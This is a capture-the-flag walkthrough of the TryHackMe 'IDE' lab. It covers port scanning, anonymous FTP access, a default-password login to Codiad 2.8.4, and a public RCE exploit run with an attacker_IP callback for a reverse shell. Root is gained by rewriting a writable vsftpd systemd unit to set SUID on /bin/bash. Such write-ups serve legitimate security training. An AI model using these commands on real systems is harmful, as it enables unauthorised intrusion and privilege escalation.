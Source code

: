 ```bash
# PLATFORM          . THM
# CTF NAME          . IDE
# DESCRIPTION       . An easy box to polish your enumeration skills!
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/ide
```

```
sudo nmap -sSVC -T5 -p- 10.10.53.183
```

```
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.53.183
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)

22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e2bed33ce87681ef477ed043d4281428 (RSA)
|   256 a882e961e4bb61af9f3a193b64bcde87 (ECDSA)
|_  256 244675a76339b63ce9f1fca413516320 (ED25519)

80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)

62337/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Codiad 2.8.4
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```


#### PORT 22 

- FTP allows for anonymous login and we have a directory called `...` 
- Inside, we were able to get a fille called `-`. 

```
Hey john,
I have reset the password as you have asked. Please use the default password to login. 
Also, please take care of the image file ;)
- drac.
```

- Port 80 was just the default apache webpage and port 62337 was running Codiad 2.8.4.

#### PORT 62337

- We know the username is `john` and that the password was the default password. 
- I've tried using the common passwords I could think of: `admin`, `password`, `default`, `root`, `toor`, `(nothing)` and I've been lucky with one of these.

- Here we can find four `.py` files that seem to be the work-in-progress for a videocall app. 

- However, we can't run any python file directly from codiac and we can't install the terminal emulator plugin to allow us to do so since we don't have access to the server.

- After some research, I found [this](https://www.exploit-db.com/exploits/49705) script that allowed us to gain RCE. 

```
python3 49705.py  http://10.10.53.183:62337/ john password attacker_IP 3131 linux
```

- we are under `www-data`.


#### PRIVILEGE ESCALATION

- I went to `/home/drac` to try and get the `user.txt` flag but I didn't had access to read it.

- Then I've decided to take a look through the files in the same home directory and I found this in `.bash_history` file

```
mysql -u drac -p 'T{REDACTED}aL'
```

- there seems to be no mysql server / client installed on the box and I've tried the same password to authenticate as the user `drac`. it worked.

- Running `sudo -l` we see that we can run

```
(ALL : ALL) /usr/sbin/service vsftpd restart
```

- I tried using the privilege escalation vector found on gtfobins but I had no luck.

- Then, I was looking around at the vsftpd service

```
-rw-rw-r-- 1 root drac 248 Aug  4  2021 /lib/systemd/system/vsftpd.service
```

- How "lucky" are we :) We have permissions to write to the file.

- So inside the `vsftpd.service` file I've replaced the `ExecStart` parameter with 

```
ExecStart=/bin/chmod +s /bin/bash
```

- After saving the file, I did a `systemcl daemon-reload` and then used `/bin/bash -p` to spawn a root shell.

- The first flag is in `/home/drac/user.txt`.
- The last flag is in `/root/root.txt`.


